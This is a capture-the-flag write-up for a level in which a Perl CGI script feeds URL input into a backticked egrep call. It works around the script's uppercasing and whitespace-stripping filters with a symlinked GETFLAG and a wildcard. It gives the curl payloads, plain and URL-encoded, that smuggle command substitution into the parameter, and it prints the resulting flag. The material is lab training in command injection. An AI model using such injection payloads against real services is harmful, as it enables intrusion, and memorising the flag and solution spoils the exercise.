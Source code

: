 # Level 12

We have a perl script that gets the argument from the url, passes it in a multiple regex then pases it in an egrep command

We want to send a payload that will get passed through the regexes

```pl
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
```

The first regex changes all characters to caps and the second one gets rid of the whitespaces so we need a payload that doesn't contain any whitespace and that is in all caps

We will have to execute the getflag command but in all caps so GETFLAG. We need to get it either in a folder in all caps or we need it to be the only GETFLAG file and use a wildcard which will scan all folders and use the found file if it is the only one this we create a fake getflag with a simlink

```bash
ln -s /bin/getflag /tmp/GETFLAG
```

then we want to execute this

```bash
curl 'localhost:4646?x=`/*/GETFLAG>&2`'
```

But we need to encode the url first

```bash
curl 'localhost:4646?x=%60%2F%2A%2FGETFLAG%3E%262%60'
```

The result appears in the errors of the server and we have access to the error logs of the apache server

```bash
cat /var/log/apache2/error.log
```

**Flag:** g1qKMiRpXf53AWhDaU7FEkczr
